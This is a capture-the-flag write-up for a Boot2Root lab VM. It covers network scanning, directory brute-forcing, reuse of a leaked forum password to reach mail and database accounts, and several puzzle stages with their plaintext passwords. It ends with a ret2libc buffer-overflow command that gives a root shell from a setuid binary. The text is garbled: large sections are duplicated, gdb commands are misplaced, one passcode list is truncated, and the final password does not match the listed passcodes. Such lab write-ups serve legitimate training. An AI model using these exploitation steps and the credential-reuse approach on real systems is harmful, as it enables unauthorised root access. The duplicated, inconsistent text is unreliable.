

# Writeup 1 – Intended Path

## 🖥️ Initial Setup
When booting the Boot2Root machine, no IP address was provided. To establish connectivity:

- I configured a Host-Only Network in the VM settings.The virtual network automatically assigned an IP address to the machine.
- To discover the machine’s IP, I performed a network scan from my attacking machine using the following command:

>nmap 192.168.56.1/24


>nmap 192.168.56.1/24

Nmap Results:
```
Nmap scan report for 192.168.56.100
Host is up (0.000071s latency).
All 1000 scanned ports on 192.168.56.100 are in ignored states.
Not shown: 1000 filtered tcp ports (proto-unreach)
MAC Address: 08:00:27:C1:16:A0 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.101
Host is up (0.00031s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
MAC Address: 08:00:27:99:04:36 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
```
> nmap -sV 192.168.56.101
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-12 15:31 +01
Nmap scan report for 192.168.56.101
Host is up (0.00048s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.0.8 or later
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap     Dovecot imapd
443/tcp open  ssl/http Apache httpd 2.2.22
993/tcp open  ssl/imap Dovecot imapd
MAC Address: 08:00:27:99:04:36 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.83 seconds
```
From the scan, the target machine is 192.168.56.101.

## 🔍 Service Enumeration
The open ports identified on the target machine were:
```
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```
Among these, SSH, FTP, HTTP, and HTTPS were of particular interest.

- ### Web Services :
    - Accessing http://192.168.56.101 showed a simple webpage containing only the word “hackme” with no additional content or functionality.Inspecting the page source and elements revealed no useful information or client-side code.
    - Checking the HTTPS site (https://192.168.56.101) at the root path.

- ### Subdomain Discovery:
    Further probing for possible subdomains on the HTTPS server uncovered several interesting web services:
    we use dirb tool for that:
> dirb https://192.168.56.101/

output :
```

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Jul 12 15:39:21 2025
URL_BASE: https://192.168.56.101/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: https://192.168.56.101/ ----
+ https://192.168.56.101/cgi-bin/ (CODE:403|SIZE:291)                          
==> DIRECTORY: https://192.168.56.101/forum/                                   
==> DIRECTORY: https://192.168.56.101/phpmyadmin/                              
+ https://192.168.56.101/server-status (CODE:403|SIZE:296)                     
==> DIRECTORY: https://192.168.56.101/webmail/ 
```

- Forum — a discussion board containing posts and user data.
- phpMyAdmin — a web-based MySQL administration interface.
- Webmailer — a webmail client interface.

The forum was functional and allowed user logins, providing a potential entry point for further exploration.
## 🔍 Forum and Credential Harvesting
### 📑 Forum Access
- Inside the forum, I found a post titled “Login problems” which contained logs of failed login attempts by a user named lmezard.
### 📑 Forum Access
- Inside the forum, I found a post titled “Login problems” which contained logs of failed login attempts by a user named lmezard.
    
- Upon closer inspection of the post content, I noticed what appeared to be a password entered into the login input box. Although it wasn’t linked to a username, I suspected this was a leaked password.
- Upon closer inspection of the post content, I noticed what appeared to be a password entered into the login input box. Although it wasn’t linked to a username, I suspected this was a leaked password.
    
- I tested this password by attempting to log in as lmezard on the forum itself, and it worked successfully.
- I tested this password by attempting to log in as lmezard on the forum itself, and it worked successfully.

- Exploring lmezard’s profile, I found an associated email address.
- Exploring lmezard’s profile, I found an associated email address.

### 📧 Webmailer Access

- Using the same email address and the password from the forum, I logged into the webmailer service. The credentials were accepted, granting me access to lmezard’s mailbox.
### 📧 Webmailer Access

- Using the same email address and the password from the forum, I logged into the webmailer service. The credentials were accepted, granting me access to lmezard’s mailbox.

- Inside the mailbox, I discovered an email containing database credentials with the username root.
- Inside the mailbox, I discovered an email containing database credentials with the username root.

### 🗃️ Database Access

- After gaining database access, I created a SQL file on the server containing queries to execute system commands. This allowed me to run commands directly on the server.
- While navigating the file system, I discovered a directory named LOOKATME. Inside this directory, there was a file named password.
- I tested the contents of this password file in various authentication systems and services on the machine but initially found no success.
- Eventually, I tried using this password as the authentication code for the FTP service. This attempt was successful, granting me access to the FTP server.
### 🗃️ Database Access

- After gaining database access, I created a SQL file on the server containing queries to execute system commands. This allowed me to run commands directly on the server.
- While navigating the file system, I discovered a directory named LOOKATME. Inside this directory, there was a file named password.
- I tested the contents of this password file in various authentication systems and services on the machine but initially found no success.
- Eventually, I tried using this password as the authentication code for the FTP service. This attempt was successful, granting me access to the FTP server.

### 📁 FTP Access
- Inside the FTP server, I found several .pcap files. When I tried to open them with Wireshark, they did not appear to be valid .pcap files.
- I manually inspected the files and noticed they contained scattered chunks of C code, but the code was out of order.
- I gathered all the contents from these files into a single file, reconstructed the correct order of the code, and then compiled and executed it.
- After running the executable, the program output:
```
"MY PASSWORD IS : Iheartpawnage"
```

- Alongside the .pcap files, there was also a Readme file that instructed me to hash the password and use the resulting hash as the SSH password for the user laurie.
### 📁 FTP Access
- Inside the FTP server, I found several .pcap files. When I tried to open them with Wireshark, they did not appear to be valid .pcap files.
- I manually inspected the files and noticed they contained scattered chunks of C code, but the code was out of order.
- I gathered all the contents from these files into a single file, reconstructed the correct order of the code, and then compiled and executed it.
- After running the executable, the program output:
```
"MY PASSWORD IS : Iheartpawnage"
```

- Alongside the .pcap files, there was also a Readme file that instructed me to hash the password and use the resulting hash as the SSH password for the user laurie.

- I generated the hash using Python:
- I generated the hash using Python:
        
    >import hashlib<br>
    >hashlib.sha256(b'Iheartpawnage').hexdigest()
    >import hashlib<br>
    >hashlib.sha256(b'Iheartpawnage').hexdigest()

    Result :

    ```
    330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
    ```
    Result :

    ```
    330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
    ```
    This is the SSH password for the user laurie.
## 👩‍💻 User laurie Access
Upon successfully logging in as laurie, I conducted an initial enumeration of the user's home directory:
>ls -la
```
-rwxr-x--- 1 laurie   laurie 26943 Oct  8  2015 bomb
-rwxr-x--- 1 laurie   laurie   158 Oct  8  2015 README
```
- ### 📄 README
    The README file contained the following message:
    ```
    Diffuse this bomb!
    When you have all the passwords, use them as "thor" user with SSH.

    HINT:
    P
    2
    b

    o
    4

    NO SPACE IN THE PASSWORD (password is case sensitive).
    ```
- ### 🧨 bomb
    The bomb file is an executable binary. When executed, it displayed the following message:
    ```
    Welcome! This is my little bomb!!!!
    You have 6 stages with only one life.
    Good luck!! Have a nice day!
    ```
- ### 🛠️ Reverse Engineering the Bomb

    To understand the bomb's logic, I used Ghidra to disassemble the binary into a more understandable format. Through analysis, I determined that the executable requires six passwords to prevent the bomb from detonating.

    Using GDB and Ghidra, I meticulously examined each stage of the bomb, uncovering the following passcodes:
    ```
    - Public speaking is very easy.
    - 1 2 6 24 120 720 
    - 0 q 777
    - fibonacci 9
    - opekmq
    - 4 2 6 1 3 5
    ```
b *0x08048e70
b *0x08048e60
0x08048dca
set $node = *(int *)0x804b26c
set $count = 0
while $node != 0 && $count < 6
  printf "Node @ %p, value = %d\n", $node, *(int *)$node
  set $node = *(int *)($node + 8)
  set $count = $count + 1
end
    #### for phase_5 we used gdb to find the comaparizon array
    steps:
    ```
    gdb ./bomb
    b main
    disass main
    b phase_5
    disass phase_5
    # This loads the base address of the lookup table (array_123) into register %esi.
    mov $0x804b220, %esi
    # to print the array content
    x/16cb 0x804b220
    ```
    this gives us the array:
    "isrveawhobpnutfg"

    #### for phase_6 we used gdb to find the cotent of the linked list

    Combining these passcodes to form the SSH password for the user thor.
- ### 🎯 Result
    > Publicspeakingisveryeasy.126241207201b2149opekmq426135

## 🧑‍💻 User thor Access
Again after successfully logging in as thor, I conducted an initial enumeration of the user's home directory:
>ls -l
```
-rwxr-x--- 1 thor thor    69 Oct  8  2015 README
-rwxr-x--- 1 thor thor 31523 Oct  8  2015 turtle
```
- ### 📄 README
    The README file contained the following message:
    ```
    Finish this challenge and use the result as password for 'zaz' user.
    ```
- ### 🐢 turtle
    The turtle file contains movement instructions such as:

        Tourne gauche de X degrees (Turn left by X degrees)
        Tourne droite de X degrees (Turn right by X degrees)
        Avance X spaces (Move forward X spaces)
        Recule X spaces (Move backward X spaces)
        The file ends with:
        "Can you digest the message? :)"
- ### 🛠️ Solution Approach
    The challenge suggests parsing the instructions and drawing them using the Python turtle module to reveal a hidden message that will serve as the password for the zaz user.
    
    so the word here is "SLASH", we have to hash it with md5 before using it as password for zaz.
    ```
        Python 3
        >>> import hashlib
        >>> hashlib.md5(b"SLASH").hexdigest()
    ```
- ### 🎯 Result  
    >  646da671ca01bb5d84dbb5fb2238dc8e

## 🧑‍💻 User zaz Access
Again after successfully logging in as zaz, I conducted an initial enumeration of the user's home directory:
>ls -l ./*
```
-rwsr-s--- 1 root zaz 4880 Oct  8  2015 ./exploit_me
./mail:
total 0
-rwxr-x--- 1 zaz zaz 0 Oct  8  2015 INBOX.Drafts
-rwxr-x--- 1 zaz zaz 0 Oct  8  2015 INBOX.Sent
-rwxr-x--- 1 zaz zaz 0 Oct  8  2015 INBOX.Trash
```
The mail folder is useless here. 
- ### 🔟 Binary Analysis exploit_me
    Running the binary:
    > ./exploit_me input

    It accepts one argument, copies it into another buffer, and then prints it.

- ### 🔍 Disassembly with Ghidra
    After disassembling the binary using Ghidra, I identified that:     
        The binary uses the unsafe strcpy function to copy user input.The destination buffer is 140 bytes long.This confirms a classic buffer overflow vulnerability.
- ### 🛠️ Buffer Overflow Exploitation
    - Objective:
    Overwrite the return address on the stack to execute a system call and spawn a shell.
    - Addresses Found:

        - 📌 system() function address:
        ```
        (gdb) disass system
        0xb7e6b060
        ```
        - 📌 exit() function address:
        ```
        (gdb) p exit
        $1 = 0xb7e5ebe0
        ```
        - 📌 /bin/sh string address:
        ```
        (gdb) info proc map
        (gdb) strings -a -t x /lib/i386-linux-gnu/libc-2.15.so | grep "/bin/sh"
        160c58 /bin/sh

        (gdb) p/x 0xb7e2c000 + 0x160c58
        $2 = 0xb7f8cc58
        ```
- ### 💥 Exploit Payload
    The payload structure:
    > [Padding] + [system() addr] + [exit() addr] + [/bin/sh addr]

    The final command:
    > ./exploit_me $(python -c 'print "A" * 140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"')

    Explanation:

    - "A" * 140 → Fill the buffer up to the saved return address.

    - \x60\xb0\xe6\xb7 → Address of system() in little-endian.

    - \xe0\xeb\xe5\xb7 → Address of exit() in little-endian.

    - \x58\xcc\xf8\xb7 → Address of the /bin/sh string.

## 🏁 Result 
After executing the payload, I successfully spawned a root shell.    
> id 

```
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```
## 👩‍💻 User laurie Access
Upon successfully logging in as laurie, I conducted an initial enumeration of the user's home directory:
>ls -la
```
-rwxr-x--- 1 laurie   laurie 26943 Oct  8  2015 bomb
-rwxr-x--- 1 laurie   laurie   158 Oct  8  2015 README
```
- ### 📄 README
    The README file contained the following message:
    ```
    Diffuse this bomb!
    When you have all the passwords, use them as "thor" user with SSH.

    HINT:
    P
    2
    b

    o
    4

    NO SPACE IN THE PASSWORD (password is case sensitive).
    ```
- ### 🧨 bomb
    The bomb file is an executable binary. When executed, it displayed the following message:
    ```
    Welcome! This is my little bomb!!!!
    You have 6 stages with only one life.
    Good luck!! Have a nice day!
    ```
- ### 🛠️ Reverse Engineering the Bomb

    To understand the bomb's logic, I used Ghidra to disassemble the binary into a more understandable format. Through analysis, I determined that the executable requires six passwords to prevent the bomb from detonating.

    Using GDB and Ghidra, I meticulously examined each stage of the bomb, uncovering the following passcodes:
    ```
    - Public speaking is very easy.
    - 1 2 6 24 120 720 
    - 0 q 777
    - fibonacci 9
    - opekmq
    - 4
    ```
    Combining these passcodes to form the SSH password for the user thor.
- ### 🎯 Result
    > Publicspeakingisveryeasy.126241207201b2149opekmq426135

## 🧑‍💻 User thor Access
Again after successfully logging in as thor, I conducted an initial enumeration of the user's home directory:
>ls -l
```
-rwxr-x--- 1 thor thor    69 Oct  8  2015 README
-rwxr-x--- 1 thor thor 31523 Oct  8  2015 turtle
```
- ### 📄 README
    The README file contained the following message:
    ```
    Finish this challenge and use the result as password for 'zaz' user.
    ```
- ### 🐢 turtle
    The turtle file contains movement instructions such as:

        Tourne gauche de X degrees (Turn left by X degrees)
        Tourne droite de X degrees (Turn right by X degrees)
        Avance X spaces (Move forward X spaces)
        Recule X spaces (Move backward X spaces)
        The file ends with:
        "Can you digest the message? :)"
- ### 🛠️ Solution Approach
    The challenge suggests parsing the instructions and drawing them using the Python turtle module to reveal a hidden message that will serve as the password for the zaz user.
    
    so the word here is "SLASH", we have to hash it with md5 before using it as password for zaz.
    ```
        Python 3
        >>> import hashlib
        >>> hashlib.md5(b"SLASH").hexdigest()
    ```
- ### 🎯 Result  
    >  646da671ca01bb5d84dbb5fb2238dc8e

## 🧑‍💻 User zaz Access
Again after successfully logging in as zaz, I conducted an initial enumeration of the user's home directory:
>ls -l ./*
```
-rwsr-s--- 1 root zaz 4880 Oct  8  2015 ./exploit_me
./mail:
total 0
-rwxr-x--- 1 zaz zaz 0 Oct  8  2015 INBOX.Drafts
-rwxr-x--- 1 zaz zaz 0 Oct  8  2015 INBOX.Sent
-rwxr-x--- 1 zaz zaz 0 Oct  8  2015 INBOX.Trash
```
The mail folder is useless here. 
- ### 🔟 Binary Analysis exploit_me
    Running the binary:
    > ./exploit_me input

    It accepts one argument, copies it into another buffer, and then prints it.

- ### 🔍 Disassembly with Ghidra
    After disassembling the binary using Ghidra, I identified that:     
        The binary uses the unsafe strcpy function to copy user input.The destination buffer is 140 bytes long.This confirms a classic buffer overflow vulnerability.
- ### 🛠️ Buffer Overflow Exploitation
    - Objective:
    Overwrite the return address on the stack to execute a system call and spawn a shell.
    - Addresses Found:

        - 📌 system() function address:
        ```
        (gdb) disass system
        0xb7e6b060
        ```
        - 📌 exit() function address:
        ```
        (gdb) p exit
        $1 = 0xb7e5ebe0
        ```
        - 📌 /bin/sh string address:
        ```
        (gdb) info proc map
        (gdb) strings -a -t x /lib/i386-linux-gnu/libc-2.15.so | grep "/bin/sh"
        160c58 /bin/sh

        (gdb) p/x 0xb7e2c000 + 0x160c58
        $2 = 0xb7f8cc58
        ```
- ### 💥 Exploit Payload
    The payload structure:
    > [Padding] + [system() addr] + [exit() addr] + [/bin/sh addr]

    The final command:
    > ./exploit_me $(python -c 'print "A" * 140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"')

    Explanation:

    - "A" * 140 → Fill the buffer up to the saved return address.

    - \x60\xb0\xe6\xb7 → Address of system() in little-endian.

    - \xe0\xeb\xe5\xb7 → Address of exit() in little-endian.

    - \x58\xcc\xf8\xb7 → Address of the /bin/sh string.

## 🏁 Result 
After executing the payload, I successfully spawned a root shell.    
> id 

```
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```


